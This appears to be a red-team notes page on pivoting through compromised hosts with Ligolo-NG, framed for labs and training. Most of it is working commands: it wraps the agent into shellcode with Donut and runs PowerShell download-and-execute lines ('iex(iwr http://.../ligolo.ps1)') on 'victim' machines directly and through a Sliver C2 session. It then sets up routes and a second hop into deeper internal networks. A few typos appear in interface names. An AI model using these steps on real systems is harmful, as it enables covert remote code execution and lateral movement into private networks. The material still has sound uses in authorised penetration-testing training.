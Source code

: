 # Ligolo-NG (client) Agent
Ligolo-NG is a reliable way to get proxying to work in lab environments or for training. 

## References
Ligolo-NG How-To Guide https://www.stationx.net/how-to-use-ligolo-ng/
Code Repository Source https://github.com/Extravenger/OSEPlayground/tree/main/04%20-%20Tunneling

## Using Donut 
Making use of Donut by TheWover and will be used to wrap the Ligolo-ng agent binary (agent.exe) into position-independent shellcode, then execute the shellcode via sliver (or other shell interaction) to establish a new encrypted tunnel. 
Reference: https://github.com/TheWover/donut

note: Requires x64 bit process to run

```bash
┌──(kali㉿kali)-[~]
└─$ donut -f 1 -o agent.bin -a 2 -p "-connect <kaliIP>:11601 -ignore-cert" -i agent.exe
```

## Setup Ligolo-NG Server
Example Setup
{% code overflow="wrap" %}
```bash
# Compromised host is accessible via 192.168.243.0 network, want to access hosts on the internal 172.16.243.0 network
# Kali box is hosted on 192.168.45.0/24 and can communicate to 192.168.243.0/24 network
Eth0: 192.168.243.159
ETH1: 172.16.243.159

# Step 1 - Add Proxy TUN interface
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user kali mode tun ligolo
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up

# Step 2 - Start Logilo-Proxy server
┌──(kali㉿kali)-[~]
└─$ ligolo-proxy -selfcert
```
{% endcode %}

## Setup Ligolo-NG Client Agents
This step will require you to transfer files to host or use powershell to run ligolo.ps1 shellcode runner (recommended)

### Using Ligolo through Shell
PS C:\Users\Public\Documents> iex(iwr http://192.168.45.173/ligolo.ps1 -UseBasicParsing)

### Using Ligolo with Sliver C2
To send request through sliver session via sharpsh
sliver (interactive) > sharpsh -- '-e -c <base64encoded>iex(iwr http://192.168.45.227/ligolo.ps1 -UseBasicParsing)'

## Setup Proxy
{% code overflow="wrap" %}
```bash
# Step 3 - Go to ligolo-proxy server console on kali and wait for Agent connection info will be displayed as such: 
ligolo-ng >> INFO [001] Agent Joined

# Step 4 - Select Agent session and select Enter
ligolo-ng >> session

# Step 5 - Confirm network interfaces with ifconfig
[AGENT : victim-1@sessionID] >> ifconfig

# Step 6 - Add IP Route of internal network to Kali host
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 172.16.243.0/24 dev ligolo

# Step 7 - Start Ligolo-NG Server proxy
[AGENT : victim-1@sessionID] >> start

# can now nmap the IP Address of internal network without proxychains
┌──(kali㉿kali)-[~]
└─$ nmap -sn 172.16.243.150-155 -vv
```
{% endcode %}

## Setup additional hop to a secondary network
It should be noted, that C2 Agent Pivots should be used here instead of using ligolo-ng tunneling to communicate with the other networks. 

Example Setup
{% code overflow="wrap" %}
```bash
# Compromised host is accessible via 192.168.243.0 network, want to access hosts on the internal 172.16.243.0 network
# Victim 1
Eth0: 192.168.243.159
ETH1: 172.16.243.159 # IP used to forward traffic to Kali

# Victim 2
ETH0: 172.16.243.150
ETH1: 10.10.3.1

# Step 1 - Add Proxy TUN interface
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user kali mode tun Ligolo-2ndHost
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo-2ndHost up

# Step 2 - Start a listener on Host 1 (Victim 1)
[AGENT : victim-1@sessionID] listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Step 3 - Generate new agent-2.bin donut shellcode 
┌──(kali㉿kali)-[~]
└─$ donut -f 1 -o agent-2.bin -a 2 -p "-connect 172.16.243.159:11601 -ignore-cert" -i agent.exe

# Step 4 - Update ligolo.ps1 (line 14) to agent-2.bin

# Step 5 - Run the donut nigolo-ng agent from Victim 2 machine 
sliver (interactive) > sharpsh -- '-e -c <base64encoded>iex(iwr http://192.168.45.227/ligolo.ps1 -UseBasicParsing)'

# Step 6 - Wait for agent to connect to Ligolo-NG Server console and select Victim-2 session
ligolo-ng >> session

# Step 7 - Start Tunnel
[Agent : victim-2@sessionID] >> tunnel_start -tun ligolo-2ndHost

# Step 8 - Add IP route to 10.10.3.0/24 network
┌──(kali㉿kali)-[~]
└─$ sudo ip add route 10.10.3.0/24 dev ligolo-ligolo-2ndHost
```
{% endcode %}
